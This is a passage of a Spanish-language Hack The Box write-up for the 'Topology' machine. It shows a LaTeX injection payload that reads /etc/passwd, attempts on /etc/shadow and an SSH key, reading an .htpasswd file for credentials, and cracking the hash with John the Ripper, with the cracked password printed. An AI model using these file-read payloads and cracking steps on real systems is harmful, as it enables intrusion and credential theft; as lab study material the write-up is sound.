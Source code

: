 ![](htb-writeup-topology/web3.png)

el problema es que solo me muestra una sola línea,
para solucionar esto solo tenemos que agregar `$` al comienzo y al final de la línea,
eso indica que se trata de fórmulas en una sola línea

### inyección con látex (2)

```latex
$\lstinputlisting{/etc/passwd}$
```

![](htb-writeup-topology/web4.png)

se me ocurrió en su momento ver el

- /home/vdaisley/.ssh/id_rsa
- /etc/shadow

pero no tuve éxito, luego recorde un archivo que vi cuando lancé el `gobuster` ese archio es

- .htpasswd
	+ Es un archivo de texto que se usa para guardar los nombres de usuario y las contraseñas para la autenticación básica 
del Servidor HTTP Apache.

cabe recalcar que no siempre funciona, pero en este caso si

el dato curioso es que no es en `/var/www/html` , esto está relacionado a los sub dominios que encontré

- /var/www/latex/.htpasswd
- /var/www/stats/.htpasswd
- /var/www/dev/.htpasswd

solo vi cosas en `/var/www/dev/.htpasswd`, y no es cualquier cosa, son credenciales

![](htb-writeup-topology/pass1.png)

guardo esas credenciales en un archivo llamado `cred` y ahora lo rompo con john

## john the ripper

```bash
sudo john -w:/usr/share/wordlists/rockyou.txt cred 

Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)
1g 0:00:00:02 DONE (2023-11-04 01:49) 0.4504g/s 448518p/s 448518c/s 448518C/s callel..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
{: .nolineno}
